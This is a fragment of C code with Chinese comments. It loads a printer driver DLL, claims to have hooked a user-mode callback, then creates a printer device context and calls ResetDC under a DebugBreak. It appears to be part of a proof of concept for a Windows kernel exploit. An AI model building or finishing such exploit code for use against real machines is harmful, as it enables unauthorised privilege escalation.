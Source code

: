 ```C

    // 获取打印机驱动
    GetPrinterDriverA(hPrinter, NULL, 2, NULL, 0, &pcbNeeded);
    PrinterDriverInfo = (DRIVER_INFO_2A*)malloc(pcbNeeded);
    result = GetPrinterDriverA(hPrinter, NULL, 2, (LPBYTE)PrinterDriverInfo, pcbNeeded, &pcbNeeded);
    if (!result)
    {
      printf("[-] Failed to get printer driver\n");
      continue;
    }
    printf("[*] Driver DLL: %s\n", PrinterDriverInfo->pDriverPath);

    // 将打印机驱动加载进内存
    hModule = LoadLibraryExA(PrinterDriverInfo->pDriverPath, NULL, LOAD_WITH_ALTERED_SEARCH_PATH);
    if (hModule == NULL)
    {
      printf("[-] Failed to load printer driver\n");
      continue;
    }
    printf("[+] Load printer driver successfully\n");

    printf("[+] Hook usermode callback successfully\n");
    return TRUE;
  }
  return FALSE;
} 

int main() 
{
  BOOL res = PrinterUserModeCallbackHOOK();
  if (!res)
  {
    printf("[-] Failed to hook usermode callback\n");
    return FALSE;
  }

  // 为打印机创建设备上下文
  hdc = CreateDCA(NULL, printerName, NULL, NULL);
  if (hdc == NULL)
  {
    printf("[-] Failed to create device context\n");
    return FALSE;
  }
  printf("[+] Create device context successfully\n");

  DebugBreak();
  ResetDC(hdc, NULL);
}
```
